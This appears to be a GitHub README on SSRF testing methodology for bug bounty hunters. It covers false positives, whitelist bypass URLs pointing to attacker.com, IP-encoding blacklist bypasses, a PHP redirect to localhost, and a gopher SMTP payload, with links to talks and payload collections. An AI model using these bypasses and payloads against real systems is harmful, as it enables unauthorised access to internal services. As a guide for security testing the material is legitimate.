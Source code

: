 # SSRF
## SSRF Methodology Flowchart
Since I've seen so many people ask what to do once they get a request back to their collaborator instance, I created this flowchart to present what I usually do to test and escalate SSRFs. 
<img src=https://github.com/iustin24/SSRF/blob/main/iustinSSRFflowchart.png>
## False Positives:
DNS queries only are rarely exploitable, and should never be reported without any additional impact.

When using your listener as an email domain `test@burpcollaborator.com`, recieving SMTP + DNS queries are not signs of SSRF. It's just how SMTP works and should never be reported. There's been edge cases where the payload `test@burpcollaborator.com`, lead to http requests. If that's the case, SSRF might be possible. See [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) story 4. 
## Sources: 
### Whitelist filter bypasses
Some common whitelist filter bypasses I test against:
```
https://target.com@attacker.com
https://attacker.com/target.com
https://target.com.attacker.com
```
### Blacklist filter bypasses (decimal, hex, octal)
Inspired from [EdOverflow's blogpost on exploiting Ruby's Resolv](https://edoverflow.com/2017/ruby-resolv-bug/)  
http://0177.1:22/  
http://0x7f.1:22/  
http://127.000.001:22/  
See more at [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

### PHP Redirect
The value appended to location will be the url your page will redirect to. You can also play around with different status codes other than 301, such as 302,303,307.
```
<?php
header("Location: http://127.0.0.1", TRUE, 301);
exit();
?>
```
### SMPT Gopher payloads
Inspired from [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) 
```
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
Payload taken from [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
### Exploiting incosistencies in url parsers + DNS Rebdinding
Orange Tsai's blackhat presentation explains this perfectly. ( 
[PDF slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) + 
[Youtube presentation](https://www.youtube.com/watch?v=R9pJ2YCXoJQ&ab_channel=BlackHat) )  
Liveoverflow's video ([PHP include and bypass SSRF protection with two DNS A records ])(https://www.youtube.com/watch?v=PKbxK2JH23Y&ab_channel=LiveOverflo)  discusses url parsing incosistencies, and also touches on DNS Rebinding.
### More SSRF Resources
[Jdonsec's list of SSRF Resources](https://github.com/jdonsec/AllThingsSSRF)
